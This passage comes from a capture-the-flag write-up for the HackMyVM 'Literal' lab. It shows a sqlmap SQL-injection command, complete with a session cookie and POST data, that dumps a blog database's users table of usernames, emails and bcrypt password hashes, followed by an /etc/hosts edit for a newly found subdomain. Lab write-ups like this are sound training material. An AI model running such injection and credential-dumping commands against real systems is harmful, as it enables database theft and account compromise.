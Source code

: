 ```bash
+----------+

[16:25:08] [INFO] fetched data logged to text files under '/home/pentester/.local/share/sqlmap/output/blog.literal.hmv'

[*] ending @ 16:25:08 /2024-09-30/

┌──(pentester㉿kali)-[~/…/HackMyVM/Literal/Scans/Web]
└─$ sqlmap -u http://blog.literal.hmv/next_projects_to_do.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=vmbc58cd7jbarcmhtmfv83t6mt" --data "sentence
-query=done" -D blog -T users --dump  --batch
<SNIP>
Database: blog
Table: users
[18 entries]
+--------+-----------+----------------------------------+--------------------------------------------------------------+---------------------+
| userid | username  | useremail                        | userpassword                                                 | usercreatedate      |
+--------+-----------+----------------------------------+--------------------------------------------------------------+---------------------+
| 1      | test      | test@blog.literal.htb            | $2y$10$wWhvCz1pGsKm..jh/lChIOA7aJoZRAil40YKlGFiw6B.6a77WzNma | 2023-04-07 17:21:47 |
<SNIP>
| 8      | walter    | walter@forumtesting.literal.hmv  | $2y$10$er9GaSRv1AwIwu9O.tlnnePNXnzDfP7LQMAUjW2Ca1td3p0Eve6TO | 2023-04-07 17:21:48 |
<SNIP>
| 11     | r1ch4rd   | r1ch4rd@forumtesting.literal.hmv | $2y$10$7itXOzOkjrAKk7Mp.5VN5.acKwGi1ziiGv8gzQEK7FOFLomxV0pkO | 2023-04-07 17:21:48 |
<SNIP>
| 18     | pentester | pentester@literal.hmv            | $2y$10$qYfDSonLuQc60.Mq2E8YBuOKrN0Vzg4QbpqmBB7BSqg8fLYn5JVAW | 2024-09-30 15:08:41 |
+--------+-----------+----------------------------------+--------------------------------------------------------------+---------------------+

<SNIP>
[*] ending @ 16:26:03 /2024-09-30/
```

After dumping the users table from the blog database we will notice that some users used a subdomain with the parent domain the same as our target domain. Let's add this subdomain to our /etc/hosts file and visit the new web application.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ echo "10.0.2.29\tforumtesting.literal.hmv" | sudo tee -a /etc/hosts      
10.0.2.29       forumtesting.literal.hmv
```
